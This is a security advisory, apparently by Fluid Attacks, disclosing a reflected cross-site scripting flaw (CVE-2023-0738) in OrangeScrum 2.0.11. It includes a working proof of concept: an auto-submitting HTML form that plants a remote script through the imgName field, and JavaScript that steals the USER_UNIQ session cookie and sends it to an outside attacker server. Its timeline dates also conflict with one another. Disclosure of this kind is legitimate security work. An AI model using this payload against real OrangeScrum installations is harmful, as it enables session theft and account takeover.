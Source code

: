 ```yaml
---
slug: advisories/eilish/
title: OrangeScrum 2.0.11 - Reflected XSS via imgName
authors: Carlos Bello
writer: cbello
codename: eilish
product: OrangeScrum 2.0.11
date: 2023-07-02 12:00 COT
cveid: CVE-2023-0738
severity: 7.3
description: OrangeScrum 2.0.11   -   Reflected XSS via imgName
keywords: Fluid Attacks, Security, Vulnerabilities, Orangescrum, XSS
banner: advisories-bg
advise: yes
template: maskedAdvisory
encrypted: yes
---
```


## Summary

|                       |                                                      |
| --------------------- | ---------------------------------------------------- |
| **Name**              | OrangeScrum 2.0.11 - Reflected XSS via imgName       |
| **Code name**         | [Eilish](https://en.wikipedia.org/wiki/Billie_Eilish)|
| **Product**           | OrangeScrum                                          |
| **Affected versions** | 2.0.11                                               |
| **State**             | Public                                               |
| **Release Date**      | 2023-07-02                                           |

## Vulnerability

|                       |                                                                                                        |
| --------------------- | -------------------------------------------------------------------------------------------------------|
| **Kind**              | Reflected cross-site scripting (XSS)                                                                   |
| **Rule**              | [008. Reflected cross-site scripting (XSS)](https://docs.fluidattacks.com/criteria/vulnerabilities/008)|
| **Remote**            | Yes                                                                                                    |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:U/C:H/I:H/A:N                                                           |
| **CVSSv3 Base Score** | 7.3                                                                                                    |
| **Exploit available** | No                                                                                                     |
| **CVE ID(s)**         | [CVE-2023-0738](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-0738)                          |

## Description

OrangeScrum version 2.0.11 allows an external attacker to obtain arbitrary
user accounts from the application. This is possible because the application
returns malicious user input in the response with the content-type set to
text/html.

## Vulnerability

This vulnerability occurs because the application returns malicious user input
in the response with the content-type set to text/html.

## Exploitation

To exploit this vulnerability, we only need to send the following malicious HTML
code to an application user.

### Exploit.html

```html
<!DOCTYPE html>
<html>
    <body>
        <form action="https://retr02332bughunter.orangescrum.com/users/done_cropimage" method="POST">
            <input type="hidden" name="x-cord" value="10" />
            <input type="hidden" name="y-cord" value="10" />
            <input type="hidden" name="width" value="10" />
            <input type="hidden" name="height" value="10" />
            <input type="hidden" name="imgName" value="<script type='text/javascript' src='https://retr02332.com/exploit-utils.js'></script>"/>
        </form>
        <script>
              document.forms[0].submit();
        </script>
    </body>
</html>
```

The malicious JavaScript that we embed in the page is as follows.

### Exploit-utils.js

```js
function getCookie(name) {
    const value = `; ${document.cookie}`;
    const parts = value.split(`; ${name}=`);
    if (parts.length === 2) return parts.pop().split(';').shift();
}

let sessionCookie = `USER_UNIQ=${getCookie("USER_UNIQ")}`;

fetch("https://retr02332.com/leak?"+sessionCookie);
```

Thus, when the user clicks on the malicious link, it will send its session
cookie to the attacker's server logs.

## Evidence of exploitation

![vulnerability-orangescrum](https://user-images.githubusercontent.com/51862990/217407265-f56a41f3-b474-435a-9cd2-f6a64f0cf893.png)

<video width="835" height="505" controls>
    <source src="https://rb.gy/fxjmng"
    type="video/mp4">
    <p>POC-XSS-OrangeScrum</p>
</video>

![cookie-leak-orangescrum](https://user-images.githubusercontent.com/51862990/217407370-f2ac8827-831c-49b1-a06e-2ec0a547c2be.png)

## Our security policy

We have reserved the ID CVE-2023-0738 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: OrangeScrum 2.0.11

* Operating System: GNU/Linux

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://github.com/Orangescrum/orangescrum/>

## Timeline

<time-lapse
  discovered="2023-07-02"
  contacted="2022-07-02"
  replied="2022-07-02"
  confirmed=""
  patched=""
  disclosure="">
</time-lapse>
